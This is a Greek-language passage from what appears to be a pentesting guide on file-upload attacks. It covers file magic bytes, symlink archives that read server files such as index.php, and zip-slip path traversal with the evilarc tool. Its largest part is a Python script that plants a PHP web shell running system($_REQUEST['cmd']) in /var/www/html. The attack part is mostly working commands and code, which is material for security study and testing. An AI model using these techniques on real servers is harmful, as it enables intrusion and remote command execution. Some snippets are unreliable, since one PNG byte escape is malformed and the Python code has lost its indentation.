 #### Επέκταση Burp

{% embed url="https://github.com/portswigger/upload-scanner" %}

## Μαγικά Bytes Κεφαλίδας

* **PNG**: `"\x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03["`
* **JPG**: `"\xff\xd8\xff"`

Ανατρέξτε στο [https://en.wikipedia.org/wiki/List\_of\_file\_signatures](https://en.wikipedia.org/wiki/List\_of\_file\_signatures) για άλλους τύπους αρχείων.

### Αυτόματη αποσυμπίεση αρχείου Zip/Tar

Αν μπορείτε να μεταφορτώσετε ένα ZIP που θα αποσυμπιέζεται μέσα στον διακομιστή, μπορείτε να κάνετε 2 πράγματα:

#### Σύνδεσμος συμβολικού συνδέσμου

Μεταφορτώστε ένα σύνδεσμο που περιέχει μαλακούς συνδέσμους σε άλλα αρχεία, στη συνέχεια, αποκτώντας πρόσβαση στα αποσυμπιεσμένα αρχεία θα έχετε πρόσβαση στα συνδεδεμένα αρχεία:
```
ln -s ../../../index.php symindex.txt
zip --symlinks test.zip symindex.txt
tar -cvf test.tar symindex.txt
```
### Αποσυμπίεση σε διαφορετικούς φακέλους

Η απρόσμενη δημιουργία αρχείων σε καταλόγους κατά την αποσυμπίεση αποτελεί ένα σημαντικό ζήτημα. Παρά τις αρχικές υποθέσεις ότι αυτή η ρύθμιση μπορεί να προστατεύσει ενάντια στην εκτέλεση εντολών σε επίπεδο λειτουργικού συστήματος μέσω κακόβουλων μεταφορτώσεων αρχείων, η ιεραρχική υποστήριξη συμπίεσης και οι δυνατότητες διάβασης καταλόγων του μορφώματος αρχείων ZIP μπορούν να εκμεταλλευτούν. Αυτό επιτρέπει στους επιτιθέμενους να παρακάμψουν περιορισμούς και να δραπετεύσουν από ασφαλείς καταλόγους μεταφόρτωσης με τη χρήση της λειτουργικότητας αποσυμπίεσης της εφαρμογής που επηρεάζεται.

Ένα αυτοματοποιημένο εργαλείο εκμετάλλευσης για τη δημιουργία τέτοιων αρχείων είναι διαθέσιμο στο [**evilarc στο GitHub**](https://github.com/ptoomey3/evilarc). Το εργαλείο μπορεί να χρησιμοποιηθεί όπως φαίνεται:
```python
# Listing available options
python2 evilarc.py -h
# Creating a malicious archive
python2 evilarc.py -o unix -d 5 -p /var/www/html/ rev.php
```
Επιπλέον, η **συμβολική σύνδεση με το evilarc** είναι μια επιλογή. Αν το στόχος είναι να στοχευθεί ένα αρχείο όπως το `/flag.txt`, πρέπει να δημιουργηθεί μια συμβολική σύνδεση σε αυτό το αρχείο στο σύστημά σας. Αυτό εξασφαλίζει ότι το evilarc δεν θα αντιμετωπίσει σφάλματα κατά τη λειτουργία του.

Παρακάτω υπάρχει ένα παράδειγμα κώδικα Python που χρησιμοποιείται για τη δημιουργία επικίνδυνου αρχείου zip:
```python
#!/usr/bin/python
import zipfile
from io import BytesIO

def create_zip():
f = BytesIO()
z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)
z.writestr('../../../../../var/www/html/webserver/shell.php', '<?php echo system($_REQUEST["cmd"]); ?>')
z.writestr('otherfile.xml', 'Content of the file')
z.close()
zip = open('poc.zip','wb')
zip.write(f.getvalue())
zip.close()

```